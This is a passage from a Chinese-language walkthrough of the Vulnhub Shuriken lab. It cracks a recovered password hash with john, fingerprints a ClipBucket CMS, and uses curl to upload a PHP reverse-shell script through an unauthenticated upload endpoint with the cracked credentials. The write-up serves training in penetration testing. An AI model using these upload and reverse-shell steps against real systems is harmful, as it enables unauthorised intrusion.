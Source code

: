 ![](D:\stu\vulnhub\shuriken靶场\pic-1\19.jpg)

应该这个是用户名`developers`，这个是密码`$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0`，不过密码的形式像是进行了`hash`加密

把这个进行复制，然后保存到一个文件中，使用`john`进行破解，解密出密码为`9972761drmfsls`

![](D:\stu\vulnhub\shuriken靶场\pic-1\20.jpg)

使用这个用户名`developers`和破解出的密码`9972761drmfsls`登录之前的`broadcast.shuriken.local`弹窗登录

![](D:\stu\vulnhub\shuriken靶场\pic-1\21.jpg)

使用`whatweb`对该网站再次进行测试，不过因为需要认证的关系，所以需要加参数

```shell
whatweb http://broadcast.shuriken.local --user developers:9972761drmfsls
```

![](D:\stu\vulnhub\shuriken靶场\pic-1\22.jpg)

发现的这个`ClipBucket`，经过搜索，发现是一种平台，可以说是网站平台，也就可以理解为一种`cms`

当然这里还可以对这个域名继续进行目录爆破

![](D:\stu\vulnhub\shuriken靶场\pic-1\23.jpg)

不过呢，这里说白了，端口开放没有给`ssh`服务，并且这是一种`cms`，如果通过目录扫描出的界面去寻找漏洞，并且是一个没有接触过的`cms`的话，无疑是需要耗费大量时间，并且如果该`cms`开源还好些，如若未开源，说不定将是从寻找一个`cms`的0day开始了。

# 漏洞利用

我这里使用`searchsploit`搜索有无版本漏洞，这里找到相关的，所说是小于4.0版本，不过这里还是测试一下

![](D:\stu\vulnhub\shuriken靶场\pic-1\24.jpg)

查看该文件，说是在4.0版本的4902已经修复，不过这个毕竟是靶机，很可能作者把该修复又去掉了

三种用法，命令执行，文件上传，sql注入，都是未认证的情况，不过确实，我们这里并未登录到平台中

这里选择一种，因为这里还是要获取一个终端的，所以还是文件上传以获取反弹shell

![](D:\stu\vulnhub\shuriken靶场\pic-1\25.jpg)

根据用法，构造语句，这里还是采用`kali`自带的一个`php`反弹脚本，在`/usr/share/webshells/php/php-reserve-shell.php`，只需要修改其中的`ip`和端口为监听地址的即可，这里的监听就是`kali`的地址

构造语句

```shell
curl -F "file=@php-reverse-shell.php" -F "plupload=1" -F "name=shell.php" "http://broadcast.shuriken.local/actions/beats_uploader.php" --basic --user "developers:9972761drmfsls"

#这里我为了稳妥起见，把php-reverse-shell.php移动到当前终端所在目录下
#第一个-F为脚本反弹shell文件
#第二个保持不动
#第三个可以自己修改，任意名称
#后面的链接地址，用法中提供了两个，自行选择
#后的--basic --user 是因为这个网址有一个基本的认证才能访问，所以需要进行这一步，才能访问
```
